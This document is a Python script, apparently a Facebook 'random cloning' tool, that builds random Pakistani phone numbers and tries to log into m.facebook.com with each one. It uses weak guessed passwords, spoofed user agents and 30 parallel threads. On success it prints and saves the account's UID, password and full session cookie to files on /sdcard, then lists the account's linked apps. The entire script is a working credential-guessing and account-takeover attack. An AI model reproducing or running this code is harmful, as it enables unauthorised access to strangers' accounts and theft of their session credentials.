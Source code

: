 # Aleeza
Mastani

from bs4 import BeautifulSoup as sop
from concurrent.futures import ThreadPoolExecutor as tred
import os,sys,time,json,random,re,string,platform,base64,platform,uuid
import marshal
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures==2 > /dev/null')
    os.system('python Kashif.py')
from bs4 import BeautifulSoup
ugen = []
A = '\x1b[1;97m' 
B = '\x1b[1;96m' 
C = '\x1b[1;91m' 
D = '\x1b[1;92m'
M = '\033[1;31m'
H = '\033[1;32m'
N = '\x1b[1;37m'    
E = '\x1b[1;93m' 
F = '\x1b[1;94m'
G = '\x1b[1;95m'
P = '\033[1;37m'
RED = '\033[1;91m'
WHITE = '\033[1;97m'
GREEN = '\033[1;32m' #
YELLOW = '\033[1;33m'
BLUE = '\033[1;34m'
ORANGE = '\033[1;35m'
KB = '{ KB }'
for xd in range(10000):
    a='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['6','7','8','9','10','11','12'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=f'{a} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}'
    ugen.append(uaku2)
try:
    os.system('curl https://bacho1001.blogspot.com/2022/07/ua.html -o ua.html')
except:
    pass
sock=open('ua.html','r').read().splitlines()
def uaku():
    try:
        ua=open('bbnew.txt','r').read().splitlines()
        for ub in ua:
            ugen.append(ub)
    except:
        a=requests.get('https://bacho1001.blogspot.com/2022/07/ua.html').text
        ua=open('.user-agents.txt','w')
        aa=re.findall('line">(.*?)<',str(a))
        for un in aa:
            ua.write(un+'\n')
        ua=open('.user-agents.txt','r').read().splitlines()
loop = 0
cps = []
oks = []
twf = []

def clear():
    os.system('clear')
    print(logo)
logo =f"""____________________
AUTHOR    :  MASTANI
FACEBOOK : ALIZA KHAN
VERSION    : 1.1
                                   [MASTANI HERE]
____________________"""


#####     ####




def linex():
    print(f'==========================================================')
def checks(oks,cps,twf):
    if not len(oks) != 0:
        pass
    if len(cps) != 0:
        print('\n\n\x1b[1;97m TOTAL OK : \x1b[1;97m %s  \x1b[1;97mKB-OK.txt' % (
            H, P, str(len(oks))))
        print('\x1b[1;97m TOTAL CP :\x1b[1;97m   %s \x1b[1;97mKB-CP.txt' %
              (H, P, str(len(cps))))
        print('\x1b[1;97m TOTAL 2F :\x1b[1;97m   %s \x1b[1;97mKB-2F.txt' %
              (H, P, str(len(twf))))
        input("\x1b[1;97mPRESE ENTER TO BACK xyz  ")
        xyz()
loop = 0
cps = []
oks = []
twf = []
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO ACTIVE  APKS ðŸŽ®%s  '%(ORANGE))
    else:
        print(f'\r {GREEN}[âˆš] %sYOUR ACTIVE APPLICATION DETAILS :'%(GREEN))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %s{ORANGE}SORRY THERE IS NO EXPIRED APKS ðŸŽ®%s'%(ORANGE))
    else:
        print(f'\r ðŸŽ®  %{RED}sYOUR EXPIRED APKS DETAILS :'%(RED))
        for i in range(len(game)):
            print(f"\r%s[%s] %s %s "%(N,i+1,game[i]. replace("Kedaluwarsa"," Kedaluwarsa"),N))
            print(f"{GREEN}[âˆš]---------------------------------------------------[âˆš]")
    #____________#
def xyz():
    #os.system("play-audio WELCOME_TO_kb_BOOT_818.mp3")
    os.getuid
    os.system("clear");print(logo)
    print('           \x1b[97m[\033[37;41m  M A I N   M E N U   \033[0;m] ')
    print(f"")
    print(f"[01] {WHITE}START RANDOM CLONING")
    print(f"[00] {WHITE}EXIT PROGRAM ")
    print(f"")
    print(f"\033[1;91m========================================================")
    Kashif = input("[âˆš] CHOOSE : ")
    if Kashif in ["1","01"]:
        Random()
    elif Kashif in ["0","00"]:
       exit()
    else:
        print('\033[1;31mINCORECT OPTION!\033[1;31m')
        xyz()

#_____________#
 
#_____________________#

def Random():
    user=[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f"")
    clear()
    print(f"          \x1b[97m[\033[37;41m  C O D E    M E N U   \033[0;m]")
    print(f"")
    linex()
    print(f"        \x1b[97m[\033[95;42mEXAMPLE :ðŸ‘‡\033[0;m]")
    print(f"")
    print(' 0306 ,0300 ,0315 ,0333')
    print(f" 0341 ,0342 ,0345 ,0349")
    print(f" 0321 ,0316 ,0308 ,0309")
    print(f"")
    linex()
    code = input(' PUT CODE : ')
    os.system("clear")
    print(logo)
    print(f"")
    print(f"          \x1b[97m[\033[37;41m  L I M I T   M E N U   \033[0;m]")
    print(f"")
    limit = int(input(' EXAMPLE: 1000, 2000, 5000, 10000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as yaari:    
        clear()
        tl = str(len(user))
        print(f" {WHITE}TOTAL IDZ             : {RED}"+tl)
        print(f" {WHITE}COUNTRY YOU CHOOSE    : PAKISTAN ")
        print(f" {WHITE}NUMBER YOU PUT        : {RED}"+code)
        print(f" {WHITE}PROCESS HAS BEEN STARTED")
        print(f" {WHITE}BE PATIENT.......")
        print(f" {WHITE}TO STOP PROCESS Ctrl + Z ")
        print(f'===========================================================')
        for love in user:
            uid = code+love
            pwx = [love]
            yaari.submit(free,uid,pwx,tl)
def free(uid,pwx,tl):
    global loop
    global oks
    global agents
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            pro = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'m.facebook.com',
            'method': 'POST',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-encoding':'utf-8','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101"',
            'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent':pro}
            lo = session.post('https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\033[1;32m[âˆš]---------------------[JADU-OK]--------------------[âˆš]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\nCOOKIE   : '+coki+'\n[âˆš]---------------------------------------------------[âˆš]')
                cek_apk(session,coki)
                open('/sdcard/Jadugar-OK.txt', 'a').write(cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[24:39]
                Red = '\033[1;31m'
                print(f'\r{Red}[Ã—]--------------------[JADU-CP]---------------------[Ã—]\nEMAIL : '+uid+'\nUID   : '+cid+' âˆš '+ps+ '\n[Ã—]---------------------------------------------------[Ã—]\033[1;97m')
                open('/sdcard/Jadugar-CP.txt', 'a').write(cid+' | '+ps+'\n')
                cps.append(cid)
                break
            elif '/x/checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid=coki[7:22]
                Red = '\033[1;31m'
                print(f'\r{YELLOW}[TEMP-LOCK] '+cid+' | '+ps+'\033[1;97m')
                open('/sdcard/Jadugar-2F.txt', 'a').write(cid+' | '+ps+'\n')
                twf.append(cid)
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\33[1;37m[JADUGAR] [%s]\33[1;97m [OK:%s~CP:%s]'%(loop,len(oks),len(cps))), 
        sys.stdout.flush()
        checks(oks,cps,twf)
    except:
        pass

        
 
if __name__ == '__main__':
    xyz()
